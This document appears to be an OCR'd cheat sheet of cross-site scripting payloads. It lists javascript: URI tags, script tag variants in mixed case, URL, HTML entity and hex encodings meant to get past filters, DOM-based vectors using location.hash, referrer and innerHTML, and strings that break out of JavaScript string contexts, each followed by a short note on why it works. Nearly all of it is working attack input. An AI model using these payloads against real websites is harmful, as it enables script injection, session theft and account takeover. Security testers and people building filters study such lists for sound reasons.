 ### JavaScript URI Payloads
```javascript
<a href="javascript:alert(document.domain)">Click me</a>
<iframe src="javascript:alert(document.domain)"></iframe>
<object data="javascript:alert(document.domain)">
<form action="javascript:alert(document.domain)"><button>Submit</button></form>
```
*Why it works:* Uses the JavaScript URI protocol which executes code when clicked or loaded.

### Bypassing Basic Filters

#### Script Tag Variations
```javascript
<script>alert(document.domain)</script>
<ScRiPt>alert(document.domain)</ScRiPt>
<script >alert(document.domain)</script>
<script/x>alert(document.domain)</script>
```
*Why it works:* Many basic filters only check for lowercase `<script>` without accounting for case sensitivity or spaces.

#### Encoded Payloads
```javascript
%3Cscript%3Ealert(document.domain)%3C/script%3E  // URL encoded
&#60;script&#62;alert(document.domain)&#60;/script&#62;  // HTML entity encoded
\x3Cscript\x3Ealert(document.domain)\x3C/script\x3E  // Hex encoded
```
*Why it works:* Bypasses filters that look for specific strings without decoding the input first.

### DOM-Based XSS Payloads

#### For location.hash (URL Fragment)
```javascript
// Visit: https://example.com/page#<img src=x onerror=alert(document.domain)>
// Code that creates vulnerability: document.write(location.hash)
```

#### For document.referrer
```javascript
// Setup a page that refers to the target with a malicious URL
// Code that creates vulnerability: document.write(document.referrer)
```

#### For innerHTML
```javascript
// Code vulnerability: element.innerHTML = userInput
"><img src=x onerror=alert(document.domain)>
```

## Advanced Payloads

### JavaScript Context Payloads
```javascript
// For: var data = "USER-INPUT";
";alert(document.domain);//

// For: var data = 'USER-INPUT';
';alert(document.domain);//

// For: var data = `USER-INPUT`;
`;alert(document.domain);//

// For: var data = /USER-INPUT/;
/alert(document.domain)/
```